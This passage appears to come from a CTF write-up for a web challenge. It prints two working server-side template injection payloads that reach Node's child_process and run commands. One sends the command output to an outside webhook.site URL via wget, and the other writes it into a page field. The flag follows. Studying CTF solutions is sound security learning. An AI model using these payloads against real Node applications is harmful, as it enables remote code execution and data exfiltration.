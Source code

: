 Going back to the challenge, the payload I submitted worked flawlessly. The problem now is that there isn't a straightforward way to display the command result, so I made a call to a webhook.site.

```plaintext
div&attributes{global.process.mainModule.constructor._load("child_process").execSync('wget https://webhook.site/6964b783-05f8-4a10-be20-817e961902bb?t=`/readflag GIVEFLAGPLS`')}
```

In retrospect, webhook was unnecessary, and I could just as well have done:

```plaintext
input&attributes({value: global.process.mainModule.constructor._load("child_process").execSync('/readflag GIVEFLAGPLS').toString()})
```

In either case, I got the flag: `grey{I_cAn'T_THInK_0F_AnytHing_clever_T0_pu7_h3r3}`.

Overall, quite a cool challenge that tests your code-auditing abilities.
